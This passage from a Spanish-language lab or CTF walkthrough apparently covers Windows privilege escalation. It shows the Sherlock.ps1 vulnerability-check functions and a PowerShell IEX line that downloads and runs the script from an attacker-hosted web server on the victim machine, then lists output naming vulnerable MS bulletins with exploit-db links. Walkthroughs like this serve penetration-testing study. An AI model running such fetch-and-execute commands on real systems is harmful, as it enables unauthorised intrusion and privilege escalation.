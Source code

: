 ```bash
function Find-MS15078 {
function Find-MS16016 {
function Find-MS16032 {
function Find-MS16034 {
function Find-CVE20177199 {
function Find-MS16135 {
```

Usaremos la opción `Find-AllVulns` que me probara todas las opciones. Para ello debemos abrirnos el `script` y en la linea final agregar `Find-AllVulns`, que hara que al interpretarse el codigo al final llame a esa función.

```powershell
        $Build = [int]$VersionInfo[2]
        $Revision = [int]$VersionInfo[3].Split(" ")[0]

        switch ( $Build ) {

            7601 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -lt 23584 ] }
            9600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 18524 ] }
            10240 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 16384 ] }
            10586 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 19 ] }
            14393 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 446 ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    Set-ExploitTable $MSBulletin $VulnStatus

}

Find-AllVulns
```

Compartimos un servicio web con `python` nuevamente y interpretamos el script desde la maquina victima con `IEX`.

```cmd
Iex(New-Object Net.WebClient).downloadString('http://10.10.16.3/Sherlock.ps1')

Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
```